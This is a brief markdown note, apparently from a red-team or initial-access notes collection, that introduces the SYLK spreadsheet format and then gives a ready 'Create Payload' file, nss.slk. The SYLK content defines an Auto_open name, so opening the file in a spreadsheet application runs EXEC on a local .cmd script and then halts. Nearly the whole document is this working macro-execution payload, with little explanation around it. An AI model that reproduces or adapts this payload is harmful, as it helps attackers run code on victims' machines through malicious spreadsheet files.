 # Symbolic Link (SYLK)

***

`SYLK` is a Microsoft file format typically used to exchange data between applications, specifically spreadsheets. SYLK files conventionally have a .slk suffix

### Create Payload

nss.slk 

```excel
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("E:\Initial-Access\Macro\screen.cmd")
C;X1;Y102;K0;EHALT()
E   
```
